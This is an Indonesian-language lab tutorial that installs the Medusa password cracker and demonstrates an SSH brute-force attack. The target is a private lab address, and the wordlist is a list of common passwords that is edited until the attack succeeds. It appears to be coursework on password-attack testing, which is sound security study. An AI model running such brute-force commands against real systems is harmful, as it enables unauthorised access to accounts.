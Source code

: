 ## DEPENDENCY

* OpenSSL
* LibSSH2
* NCPFS
* LibPQ
* Subversion
* afpfs-ng

Jika bekum memiliki dependency terebut maka medusa tidak dapat diinstall, berikut command install seluruh dependency :

```
sudo add-apt-repository "deb http://archive.ubuntu.com/ubuntu/ wheezy universe multiverse"

sudo apt-get update

sudo apt-get install build-essential make patch subversion openssl libssl-dev libncp-dev libpq-dev libgcrypt11-dev libgnutls-dev libsvn-dev zlib1g-dev libssh2-1-dev libnl-dev gettext autoconf tcl8.5 libpcap0.8-dev python-scapy python-dev cracklib-runtime macchanger-gtk tshark ethtool
```

## INSTALASI MEDUSA

* **Step 1**    : Download package medusa dari [foofus.net/goons/jmk/medusa/medusa.html](http://foofus.net/goons/jmk/medusa/medusa.html)

  ```
  wget http://www.foofus.net/jmk/tools/medusa-2.2.tar.gz
  ```

* **Step 2**    : Untuk menkonfigurasi, compile dan menginstall Medusa, ketik kode berikut di terminal:

  ```
  tar -zxvf medusa-2.2.tar.gz
  cd medusa-2.2
  ./configure
  make
  make install
  ```

## UJI COBA

Pertama, Siapkan file yang terdiri dari kumpulan password yang dipisahkan oleh baris atau download [disini](/assets/ncrack-hydra/500-worst-passwords.txt). Pada uji coba kali ini, kita akan mencoba melakukan _brute force attack_ pada protokol SSH ke ip address `192.168.56.202` dengan asumsi username `pksj` dan list password menggunakan file yang telah disiapkan

**Command**:

```
medusa -h 192.168.56.202 -u "pksj" -P 500-worst-passwords.txt -M ssh
```

-h adalah host, -u adalah user -P adalah list passwordnya, -M adalah module nya. Man page bisa dilihat [disini](http://www.irongeek.com/i.php?page=backtrack-r1-man-pages/medusa)

Lalu tunggu hasilnya

![](/assets/medusa-hasil1.PNG)
  
Uji coba gagal karena password yang digunakan tidak berada dalam file [500-worst-passwords.txt](/assets/ncrack-hydra/500-worst-passwords.txt),

Untuk keberhasilan uji coba kali ini, kita tambahkan password yang digunakan dengan cara:

```
echo "pksj" >> 500-worst-passwords.txt
```

Lalu uji coba lagi

![](/assets/medusa-hasil2.PNG)

## KESIMPULAN

Dengan uji coba yang telah dilakukan, Medusa dapat berhasil menyerang protokol ssh dengan _brute force attack_ jika password dari target terdapat didalam file password yang dibuat oleh penyerang dengan waktu 10 detik. Jika password tidak terdapat dalam file, maka serangan akan gagal.


